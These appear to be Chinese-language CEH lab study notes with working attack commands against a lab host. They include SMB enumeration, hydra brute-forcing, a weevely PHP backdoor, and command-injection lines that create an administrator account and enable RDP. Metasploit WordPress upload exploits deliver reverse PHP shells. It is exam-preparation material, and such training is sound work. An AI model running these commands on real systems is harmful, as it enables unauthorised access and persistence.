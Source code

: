 


## 連結
- [https://www.cvedetails.com](https://www.cvedetails.com)
- [https://www.exploit-db.com/](https://www.exploit-db.com/)



## linux
```bash
sudo systemctl start ssh
sudo su

# 查網關
ip route
ifconfig
route -n


# 加使用者cehp、並給sudo
sudo useradd cehp
sudo passwd cehp #會提示你輸入密碼
cut -d: -f1 /etc/passwd | grep cehp
sudo usermod -aG sudo cehp # 或sudo usermod -aG wheel cehp
getent group sudo # getent group wheel
```

[putty](https://the.earth.li/~sgtatham/putty/latest/w64/putty.exe)
[git](https://git-scm.com/downloads/win)
[vscode](https://code.visualstudio.com/)
## windows
```powershell
ipconfig # echo %userdomain%

# 共享資料夾
net use \\10.10.10.16 apple /u:martin
net view \\10.10.10.16

# 管道
echo 123 | whoami
| net user cehp /add
| net users
| net localgroup Administrators cehp /add
| net localgroup Administrators
| reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Terminal Server" /vfDenyTSConnections /t REG_DWORD /d 0 /f
| netstat -an | findstr :3389

net user cehp
```


常用服務和Port

22：SSH（Secure Shell），用於安全遠程登錄。
23：Telnet，非加密的遠程登錄服務。
25：SMTP（Simple Mail Transfer Protocol），用於傳輸電子郵件。
53：DNS
80：HTTP（Hypertext Transfer Protocol），用於網頁傳輸。
88：Kerberos，一种AD网络身份验证协议，广泛用于基于票据的身份验证机制
123：NTP（Network Time Protocol），用於時間同步。
135：RPC（Remote Procedure Call），用於遠程進程調用。
137（UDP/TCP）：NetBIOS Name Service，用于将计算机名称解析为 IP 地址，类似于 DNS 的功能，但适用于 NetBIOS 网络。NetBIOS 是一种老旧协议，在现代网络中逐渐被替代（如 DNS 和 SMB 直接使用 TCP/445）。
138（UDP）：NetBIOS Datagram Service，用于在局域网中发送广播消息（如发送网络通知）。
139（TCP）：NetBIOS Session Service，用于建立和维护基于 NetBIOS 的会话，支持文件共享、打印机共享等功能。
161：SNMP，簡單網管。网络设备通过 SNMP 向管理系统报告状态，或者允许管理系统更改设备配置。SNMPv1、SNMPv2c： 明文传输，安全性较低。SNMPv3： 提供认证和加密功能，增强安全性。
389：LDAP（Lightweight Directory Access Protocol），用於訪問目錄服務。
443：HTTPS（HTTP over SSL/TLS），加密的網頁傳輸。
445：SMB（Server Message Block），微軟的檔案、印表機。用於共享文件和資源。
636：LDAPS（LDAP over SSL/TLS），加密的 LDAP。
1900：是 UPnP（通用即插即用） 的核心协议之一。SSDP 用于在局域网中发现网络设备（如打印机、路由器、媒体服务器等）。
2049：NFS（Network File System），用於文件系統共享。
3268：Microsoft Global Catalog，Active Directory 全局编录服务
3389：RDP
5353：Zerocon
48101：常見於物聯網（IOT）設備，特別是 Mirai C&C（Command and Control）。






```bash
snmp-check 10.10.10.16
nbtscan 10.10.10.1-254
enum4linux 10.10.10.16
enum4linux -u martin -p apple -a 10.10.10.16
hydra -L win32-users.txt -P /usr/share/wordlists/nmap.lst smb://10.10.10.16


# 列舉分享資料夾
python3 -m pip install --upgrade impacket
crackmapexec smb 10.10.10.16 -u martin -p apple --shares
```




## 製作後門php
```bash
weevely generate cehp backdoor.php #cehp為後門密碼
weevely http://10.10.10.16:8080/dvwa/hackable/uploads/backdoor.php cehp
```


## WPScan
```bash
whatweb http://10.10.10.16:8080/ceh
wpscan --url http://10.10.10.16:8080/ceh -e u # -e u表示列舉使用者
wpscan --url http://10.10.10.16:8080/ceh -P /usr/share/wordlists/nmap.lst # -e u表示列舉使用者
wpscan --url http://10.10.10.16:8080/ceh --api-token
```



## Metasploit
```bash
sudo service postgresql start
msfconsole

use exploit/unix/webapp/wp_admin_shell_upload
show info
set RHOSTS 10.10.10.16
set RPORT 8080
set TARGETURI /ceh
set USERNAME admin
set PASSWORD qwerty@123
set PAYLOAD php/reverse_php
exploit
```

```bash
msfconsole
use exploit/unix/webapp/wp_photo_gallery_unrestricted_file_upload
show info
set RHOSTS 10.10.10.16
set RPORT 8080
set TARGETURI /ceh
set USERNAME cehuser1
set PASSWORD green
set PAYLOAD php/reverse_php
exploit
```


### 外掛
[https://downloads.wordpress.org/plugin/photo-gallery.1.2.5.zip](https://downloads.wordpress.org/plugin/photo-gallery.1.2.5.zip)

